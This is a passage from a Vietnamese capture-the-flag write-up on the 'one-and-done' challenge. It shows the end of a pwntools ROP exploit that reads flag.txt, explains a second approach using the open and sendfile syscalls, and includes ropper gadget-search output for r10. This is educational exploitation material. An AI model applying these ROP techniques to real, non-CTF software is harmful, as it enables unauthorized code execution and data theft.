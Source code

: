 ```python
    payload += read_flag(bss+0x50)
    payload += write(bss+0x50)
    return payload

input()
payload2 = state1()
p.sendlineafter(b'pwn me pls',payload2)
input()
p.send(b'./flag.txt\x00')

payload3 = state2()
p.sendlineafter(b'pwn me pls',payload3)




p.interactive()
```

### cách 2 (open + sendfile)

- trước tiên cần biết cách setup syscall ```sendfile``` , ở đây 

1. in_fd sẽ là read và out_fd sẽ là write
2.  Nếu offset là NULL, thì dữ liệu sẽ được đọc từ in_fd , thằng này sẽ là NULLNULL
3.  count là số byte cần sao chép giữa các mô tả tệp , có nghĩa là từ read sang write (số byte được in ra)

vậy out_fd sẽ là 1 và in_fd là 3
```cs
#include <sys/sendfile.h>

       ssize_t sendfile(int out_fd, int in_fd, off_t *_Nullable offset,
                        size_t count);
```

- ở đây tham số thứ 4 là r10 , tuy nhiên ta không có gadget nào control nó :

```cs
ploi@PhuocLoiiiii:~/pwn/ROP/tamu_ctf$ ropper -f one-and-done | grep r10
[INFO] Load gadgets from cache
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000401e42: add eax, 0xdaf88348; jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401d8a: add eax, 0xfa8948c3; mov r10d, 8; lea rsi, [rip + 0x129c]; xor edi, edi; mov eax, 0xe; syscall;
0x0000000000401ad4: add edi, eax; cmp byte ptr [r10], al; add byte ptr [rax], al; add byte ptr [rax + 0xda], bh; lea rdi, [rip + 0x4328]; syscall;
0x0000000000401ad6: cmp byte ptr [r10], al; add byte ptr [rax], al; add byte ptr [rax + 0xda], bh; lea rdi, [rip + 0x4328]; syscall;

0x000000000040226b: cmp byte ptr [r8 + 0x39], r9b; sub byte ptr [r10 + rcx + 0x31], r14b; sal byte ptr [rcx], cl; test byte ptr [rax - 0x77], -0x11; call qword ptr [rbp + 0x48];
0x000000000040226c: cmp byte ptr [rax + 0x39], cl; sub byte ptr [r10 + rcx + 0x31], r14b; sal byte ptr [rcx], cl; test byte ptr [rax - 0x77], -0x11; call qword ptr [rbp + 0x48];
0x0000000000401e44: cmp eax, -0x26; jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e43: cmp rax, -0x26; jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e46: fidiv dword ptr [rbp - 0x3c]; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
0x0000000000401e33: jae 0x1e55; movsxd rdx, edx; xor r10d, r10d; mov rax, rbx; mov rsi, rbp; syscall;
0x0000000000401e47: jne 0x1e0d; xor r10d, r10d; xor esi, esi; mov rax, rbx; syscall;
```